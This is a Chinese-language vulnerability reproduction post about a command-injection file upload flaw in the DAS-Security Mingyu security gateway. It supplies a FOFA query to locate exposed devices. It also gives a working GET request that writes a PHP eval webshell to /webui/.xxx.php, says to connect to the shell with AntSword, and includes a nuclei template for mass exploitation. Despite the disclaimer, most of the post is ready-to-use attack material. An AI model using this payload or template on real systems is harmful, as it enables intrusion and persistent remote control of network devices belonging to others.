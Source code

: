 # 原创
：  漏洞复现--安恒明御安全网关文件上传

# 漏洞复现--安恒明御安全网关文件上传

## 免责声明：

**文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，切勿当真，未授权的攻击属于非法行为！文章中敏感信息均已做多层打马处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行负**

### 一：漏洞描述

安恒明御安全网关是一个网络安全产品，由安恒信息技术股份有限公司开发和提供。它是一个综合性的安全管理平台，用于保护企业网络免受各种网络威胁的攻击。该产品存在文件上传漏洞。

### 二：漏洞影响版本

安恒明御网关

### 三：网络空间测绘查询

fofa：<br/> `title=="明御安全网关"`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/915de345da73799b10efd5c758d080f8.jpeg"/>

### 四：漏洞复现

POC：<br/> `GET /webui/?$type=1&amp;bkg_flag=0&amp;g=aaa_portal_auth_local_submit&amp;suffix=1|echo+%22%3C%3fphp+eval(\$_POST[\%22cmd\%22])?%3E%22+%3E+.xxx.php HTTP/1.1`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/70e575a6b4b14e5cbe5b5c193285338d.png"/>

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/0d6bb52216cefa5fae82074935a688b5.jpeg"/><br/> 如此页面便存在该漏洞。该POC已将一句话木马写入，名称为.xxx.php，路径在/webui/.xxx.php<br/> 蚁剑连接：<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/a00b096df9a61c6985a7d39bb45abff9.jpeg"/>

### 五：批量验证

nuclei：

```
id: mingyu_upload
info:
  name: mingyu_upload
  author: joyboy
  severity: critical
  description: http://xxx.xxx.xxx/webui/?g=aaa_portal_auth_local_submit&amp;bkg_flag=0&amp;$type=1&amp;suffix=1|echo+"&lt;%3fphp+eval(\$_POST[\"a\"]);?&gt;"+&gt;+.xxx.php
  metadata:
    max-request: 1
    fofa-query: title="明御安全网关"
    verified: true
    CVE: 
  tags: 明御安全网关,uploadfile

requests:
  - raw:
      - |
        GET /webui/?g=aaa_portal_auth_local_submit&amp;bkg_flag=0&amp;$type=1&amp;suffix=1|echo+"&lt;%3fphp+eval(\$_POST[\"a\"]);?&gt;"+&gt;+.xxx.php HTTP/1.1
        Host: {{Hostname}}
    matchers:
      - type: word
        part: body
        words:
          - 'success'

```

脚本来自揽月安全团队<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/a2dd2c9221daebf52e93927a52823cde.jpeg"/>
